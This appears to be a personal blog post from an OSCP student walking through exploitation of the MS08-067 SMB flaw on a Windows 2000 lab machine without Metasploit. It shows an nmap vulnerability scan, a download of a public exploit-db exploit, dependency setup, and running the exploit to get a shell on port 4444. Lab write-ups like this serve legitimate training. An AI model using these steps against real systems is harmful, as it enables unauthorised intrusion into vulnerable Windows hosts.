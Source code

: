 ```yaml
---
published: true
layout: post
title: "Exploiting the MS08-067 vulnerability without Metasploit"
---
```


I'm currently enrolled in Offensive Security's Penetration Testing with Kali Linux course with the intention of obtaining the OSCP Certification.  During the OSCP Certification Exam the use of Metasploit is limited, therefore I am not using it when exploiting the servers in the OSCP lab environment.  
Here are the steps I took to perform my first exploit - MS08-067 - without the use of Metasploit.

I targeted the Netbios service by using Nmap's smb-check-vulns script on a Windows 2000 Server

	nmap -v -p 139, 445 --script=smb-check-vulns --script-args=unsafe=1 192.168.31.205

Nmap returned the following

![_config.yml]({{ site.baseurl }}/images/nmap-ms08067-vulnerable.png)

Searched exploit-db for an exploit and found the following

![_config.yml]({{ site.baseurl }}/images/ms08067-exploitdb.png)
    
    cd ~/Projects/oscp/exploits
    wget https://www.exploit-db.com/download/7132 -O ms08-067.py
    chown 755 ms08-067.py

The exploit code states that impacket and pycrypto are required.  Download impacket and pycrypto.

	cd /opt/
    wget https://pypi.python.org/packages/source/i/impacket/impacket-0.9.13.tar.gz
    wget https://pypi.python.org/packages/source/p/pycrypto/pycrypto-2.6.1.tar.gz
    tar -xzf impacket-0.9.13.tar.gz
    tar -xzf pycrypto-2.6.1.tar.gz
 
Need python dev tools installed in order to build pycrypto

	apt-get install python-dev
    
Change the permissions on the impacket folder and run setup

    cd impacket-0.9.13/
	./setup.py

Change the permissions on the pycrypto folder and run setup

	cd ..
    cd pycrypto-2.6.1/ 
	python setup.py build
    python setup.py install
    
Change the port # in the exploit code to the port # reported as vulnerable by Nmap earlier (i'm using Sublime Text)

    cd ~/Projects/oscp/exploits
![_config.yml]({{ site.baseurl }}/images/ms08067-exploitcodeportnumber.png)

Execute the exploit with the argument of 1 for Windows 2000

    ./ms08-067.py 192.168.31.205 1
    
Output of exploit states to connect to victim server using telnet on port 4444

![_config.yml]({{ site.baseurl }}/images/ms08067-payload-sent.png)






